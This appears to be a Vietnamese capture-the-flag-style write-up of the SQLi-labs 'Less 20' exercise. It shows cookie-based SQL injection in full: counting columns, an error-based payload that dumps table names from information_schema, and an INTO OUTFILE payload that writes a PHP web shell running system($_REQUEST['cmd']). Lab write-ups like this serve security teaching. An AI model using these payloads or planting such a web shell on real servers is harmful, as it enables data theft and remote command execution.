# Less 20

Đề bài cho một khung đăng nhập



Thử login



Ta tìm cách để pass qua màn đăng nhập này nhưng không thể pass qua màn này. Tôi dùng một tài khoản để login vào đây



Tôi thấy ở đây hiển thị lên khá nhiều thông tin



Ta thấy ở đây có một số thông tin trong request header. 

Tôi thử sửa `user-agent` trong http request header



Tôi thấy giá trị này đã được get lên trên màn hình



Tôi thử nhập vào đây một số giá trị có các ký tự đặc biệt để xem có thấy gì khác biệt ở đây không. Nhưng tôi không thấy gì đặc biệt ở đây. Tôi thấy còn có giá trị cookie. Tôi thử sửa giá trị này trong http header request



Tôi thấy giá trị cũng đã được get để hiển thị lên trên màn hình



Tôi cũng thử truyền linh tinh vào đây xem có gì không. Khi tôi nhập vào là



Thì thấy lỗi SQL trả về màn hình


Tôi thấy ở đây nó đã get giá trị ở cookies để truyền vào câu lệnh SQL. Câu query ở đây rất có thể là câu lệnh select vì tôi thấy có limit ở sau. Tôi thử dùng order by để xem câu select sẽ gọi lên bn cột thì tôi thấy khi khi dùng đến 4 thì có lỗi



Như vậy câu select sẽ lấy giá trị của 3 trường. Như vậy dựa vào đây chúng ta có thể show lên các giá trị bên trong DB.

Show tên của DB đang thao tác




Show các bảng trong DB

Khi truyền vào cookies như sau

```
Cookie: uname=niemdt' and (SELECT 0 FROM (SELECT count(*), CONCAT((select table_name from information_schema.tables where table_schema='security' limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y)  -- '
```

Kết quả trả về



Như vậy ta hoàn toàn có thể khai thác toàn bộ thông tin trong DB giông như những bài trước

Ta  cũng có thể tuyền vào một đoạn mã PHP 

```
Cookie: uname=admin' union select 1,2,"<?php system ($_REQUEST['cmd'])?>" into outfile '/var/www/html/tests/c5.php' -- '
```



Ta thấy kết quả response lại màn hình



Giờ có thể thao tác

